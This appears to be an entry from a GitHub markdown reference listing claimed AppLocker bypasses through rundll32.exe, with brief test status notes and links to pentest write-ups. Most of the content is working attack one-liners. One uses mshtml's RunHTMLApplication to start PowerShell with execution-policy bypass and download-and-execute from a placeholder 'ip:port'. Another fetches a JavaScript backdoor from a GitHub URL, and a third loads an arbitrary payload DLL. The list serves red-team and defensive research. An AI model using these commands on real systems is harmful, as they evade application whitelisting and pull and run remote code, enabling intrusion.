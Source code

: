 # Ultimate AppLocker ByPass List - Possible or claimed bypasses
This list is a collection of things I find and want to have for future reference. 
The things on this list can either be a possible bypass technique (depending on configuration) or claimed to be a bypass by someone.
If ByPasses AppLocker Default Rules is set to No it means I have tested it. If it says NT it means I have not had the time to test it against the default rules.
If it is a valid bypass it will be moved the the VerifiedBypass-DefaultRules.md list. 


## Rundll32.exe
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"

rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

rundll32 shell32.dll,Control_RunDLL payload.dll
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: No  

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes:
I only tested on Windows 10 against the default rules, it could work against older Windows versions.

* Links:  
  * https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
  * https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
  * https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Rundll32.md
  * https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
